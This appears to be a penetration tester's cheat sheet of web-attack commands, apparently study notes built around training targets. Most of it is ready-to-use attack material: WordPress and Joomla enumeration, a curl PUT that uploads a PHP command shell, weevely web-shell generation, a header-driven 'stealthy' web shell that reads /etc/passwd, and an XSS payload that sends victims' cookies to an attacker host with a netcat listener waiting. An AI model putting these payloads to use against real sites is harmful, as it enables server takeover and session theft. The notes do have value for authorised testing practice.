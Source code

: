 	#WPScan (vp = Vulnerable Plugins, vt = Vulnerable Themes, u = Users)
	wpscan --url http://localhost
	wpscan --url http://localhost --enumerate vp
	wpscan --url http://localhost --enumerate vt
	wpscan --url http://localhost --enumerate u
	
	#Joomscan
	joomscan -u  http://localhost 
	joomscan -u  http://localhost --enumerate-components
	
	curl -i https://www.megacorpone.com/
	curl https://www.megacorpone.com/ -s -L | html2text -width '99' | uniq				#grep just text on page
	curl https://www.megacorpone.com/ -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'	#grep title and link
	
	#Can we upload file?
	curl -v -X OPTIONS https://www.megacorpone.com/
	curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' https://www.megacorpone.com/test/shell.php
	
**# Web Shell:** - [Acunetix web shell](https://www.acunetix.com/websitesecurity/introduction-web-shells/)

	kali: ./weevely.py generate password123 agent.php   				#weevly shell
	kali: ./weevely.py "http://targetsite/agent.php" password123
	
	echo "<?php system($_GET['cmd']); ?>" > webshell.php   				#site/webshell.php?cmd=whoami
	
	Modifying headers:
	echo "<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>" > webshell.php        #a bit stealthy lol
	Then intercept:
	GET /vulnsite/webshell.php HTTP/1.1
	Host: 10.10.10.168
	Accept-Language: cat /etc/passwd
	
**# Wappalyzer technology used**

    burpSuite:
    inspect url parameter
    inspect page content
    inspect response headers
    inspect robots.txt & sitemap.xml
    locate admin consoles /manager/html and /phpmyadmin
    
**# Login -> use default cred, guessing, bruteforce,** 

    burpsuite intruder - set_session parameter change every request

**# XSS - [steal cookie/session](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies), content injection** - [Portswigger XSS](https://portswigger.net/web-security/cross-site-scripting) | [Portswigger XSS cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

    <iframe src=http://kaliIP/report height=”0” width=”0”></iframe> -> deliver an XSS payload in input form/text field
    kali: sudo nc -nvlp 80

    steal cookie
    kali: sudo nc -nvlp 80
    <script>new Image().src="http://kaliIP/cool.jpg?output="+document.cookie;</script>  #inject into text field, wait user login or visit site
